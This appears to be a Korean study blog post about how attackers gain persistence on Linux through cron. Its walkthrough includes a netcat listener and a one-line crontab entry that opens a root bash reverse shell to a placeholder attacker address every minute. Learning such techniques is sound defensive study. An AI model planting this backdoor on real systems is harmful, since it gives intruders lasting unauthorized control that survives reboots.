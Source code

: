 ```yaml
---
layout: post
title: "cron을 이용한 지속성 확보 공부"
date: 2025-09-20 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

지속성`Persistence`은 공격자가 시스템 재부팅 · 세션 종료 · 초기 침투에 사용된 취약점이 패치된 후에도 시스템에 대한 접근 권한을 계속 유지하는 기술이다. 권한을 획득한 것만큼이나 그 권한을 잃지 않는 것이 중요하며 리눅스 환경에서는 주기적으로 명령을 실행하는 `cron` 스케줄러가 지속성 확보를 위한 주요 수단으로 사용된다.

---

### 2. cron 기본

`cron`은 특정 시간에 지정된 작업을 자동으로 실행하는 리눅스의 데몬이다. 사용자는 `crontab` 파일을 수정하여 작업을 예약할 수 있다.

*   **주요 경로:**
    *   `/etc/crontab`: 시스템 전체에 적용되는 cron 작업 파일. 사용자 계정을 지정하여 명령을 실행할 수 있다.
    *   `/var/spool/cron/crontabs/`: 사용자별 crontab 파일이 저장되는 디렉터리. `root` 사용자의 crontab은 여기에 위치한다.
*   **형식:**
    ```
    # ┌───────────── 분 (0 - 59)
    # │ ┌───────────── 시 (0 - 23)
    # │ │ ┌───────────── 일 (1 - 31)
    # │ │ │ ┌───────────── 월 (1 - 12)
    # │ │ │ │ ┌───────────── 요일 (0 - 6)
    # │ │ │ │ │
    # * * * * * <사용자> <실행할 명령어>
    ```

---

### 3. 사용 예시: crontab을 이용한 리버스 쉘 연결

이전 게시글에서 `root` 권한을 획득한 공격자가 매 분마다 공격자 PC로 리버스 쉘을 연결하는 cron 작업을 등록하여 시스템에 대한 영구적인 백도어를 생성하는 상황이다.

#### **1. 공격자 리스너 실행**
공격자 PC에서 `netcat`을 이용해 4444번 포트에서 연결을 대기한다.
```bash
nc -lvnp 4444
```

#### **2. 대상 서버에 cron 작업 등록**
획득한 `root` 쉘에서 `root` 사용자의 crontab에 1분마다 리버스 쉘을 실행하는 작업을 추가한다. `crontab -e`를 사용하는 대신 `echo`와 파이프를 이용하여 비대화형(non-interactive) 방식으로 작업을 등록할 수 있다.
```bash
# 기존 crontab 내용을 유지하면서 새 작업을 추가
(crontab -l 2>/dev/null; echo "* * * * * /bin/bash -i >& /dev/tcp/[Attacker IP]/4444 0>&1") | crontab -
```

#### **3. 연결 수신 확인**
cron 작업이 등록되고 1분 이내에 공격자 PC의 `netcat` 리스너는 대상 서버로부터 들어오는 `root` 권한의 쉘 연결을 수신하게 된다.
[여기에 Crontab 설정 및 리버스 쉘 수신 비교 이미지 삽입]

이제 대상 서버가 재부팅되거나 다른 관리자가 악성 프로세스를 종료시키더라도 `cron` 데몬은 매 분마다 공격자에게 다시 쉘을 제공하므로 공격자는 시스템에 대한 통제권을 잃지 않게 된다.

<hr class="short-rule">

